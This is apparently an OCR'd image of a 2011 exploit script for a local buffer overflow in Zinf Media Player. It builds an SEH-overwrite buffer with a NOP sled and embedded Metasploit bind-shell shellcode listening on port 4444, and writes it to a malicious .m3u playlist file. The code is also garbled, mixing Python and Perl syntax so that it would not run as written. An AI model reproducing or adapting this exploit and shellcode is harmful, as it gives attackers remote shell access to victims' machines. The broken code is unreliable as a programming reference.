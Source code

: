EXP
---

    #!/usr/bin/python

    import sys

    print "########################################################################"
    print "# Exploit Title: Zinf Media Player Local Buffer Overflow               #"
    print "# Author: Angel Injection                                              #"
    print "# Email: Angel-Injection@hotmail.com                                   #"
    print "# Date: 25/8/2011                                                      #"
    print "# Home Page: http://1337day.com http://dev-point.com http://sec-krb.org#"
    print "########################################################################"


    try :

       junk = "\x41" * 1300
       next_seh = "\xEB\x06\x90\x90"
       seh= "\x0C\x04\x05\x12"
       nop = "\x90" * 20
        # win32_bind -  EXITFUNC=calc LPORT=4444 Size=344 Encoder=PexFnstenvSub http://metasploit.com
    my $shellcode =
    "\x2b\xc9\x83\xe9\xb0\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\x9a".
    "\xb8\xbb\x46\x83\xeb\xfc\xe2\xf4\x66\xd2\x50\x0b\x72\x41\x44\xb9".
    "\x65\xd8\x30\x2a\xbe\x9c\x30\x03\xa6\x33\xc7\x43\xe2\xb9\x54\xcd".
    "\xd5\xa0\x30\x19\xba\xb9\x50\x0f\x11\x8c\x30\x47\x74\x89\x7b\xdf".
    "\x36\x3c\x7b\x32\x9d\x79\x71\x4b\x9b\x7a\x50\xb2\xa1\xec\x9f\x6e".
    "\xef\x5d\x30\x19\xbe\xb9\x50\x20\x11\xb4\xf0\xcd\xc5\xa4\xba\xad".
    "\x99\x94\x30\xcf\xf6\x9c\xa7\x27\x59\x89\x60\x22\x11\xfb\x8b\xcd".
    "\xda\xb4\x30\x36\x86\x15\x30\x06\x92\xe6\xd3\xc8\xd4\xb6\x57\x16".
    "\x65\x6e\xdd\x15\xfc\xd0\x88\x74\xf2\xcf\xc8\x74\xc5\xec\x44\x96".
    "\xf2\x73\x56\xba\xa1\xe8\x44\x90\xc5\x31\x5e\x20\x1b\x55\xb3\x44".
    "\xcf\xd2\xb9\xb9\x4a\xd0\x62\x4f\x6f\x15\xec\xb9\x4c\xeb\xe8\x15".
    "\xc9\xeb\xf8\x15\xd9\xeb\x44\x96\xfc\xd0\xaa\x1a\xfc\xeb\x32\xa7".
    "\x0f\xd0\x1f\x5c\xea\x7f\xec\xb9\x4c\xd2\xab\x17\xcf\x47\x6b\x2e".
    "\x3e\x15\x95\xaf\xcd\x47\x6d\x15\xcf\x47\x6b\x2e\x7f\xf1\x3d\x0f".
    "\xcd\x47\x6d\x16\xce\xec\xee\xb9\x4a\x2b\xd3\xa1\xe3\x7e\xc2\x11".
    "\x65\x6e\xee\xb9\x4a\xde\xd1\x22\xfc\xd0\xd8\x2b\x13\x5d\xd1\x16".
    "\xc3\x91\x77\xcf\x7d\xd2\xff\xcf\x78\x89\x7b\xb5\x30\x46\xf9\x6b".
    "\x64\xfa\x97\xd5\x17\xc2\x83\xed\x31\x13\xd3\x34\x64\x0b\xad\xb9".
    "\xef\xfc\x44\x90\xc1\xef\xe9\x17\xcb\xe9\xd1\x47\xcb\xe9\xee\x17".
    "\x65\x68\xd3\xeb\x43\xbd\x75\x15\x65\x6e\xd1\xb9\x65\x8f\x44\x96".
    "\x11\xef\x47\xc5\x5e\xdc\x44\x90\xc8\x47\x6b\x2e\x6a\x32\xbf\x19".
    "\xc9\x47\x6d\xb9\x4a\xb8\xbb\x46";
        f = open("test.m3u" ,"w")
    f.write(junk + next_seh + seh + nop + shellcode)
        f.close()

    print "[*] Press Any Key To Exit ...";
    $exit=<>;
    print $exit ;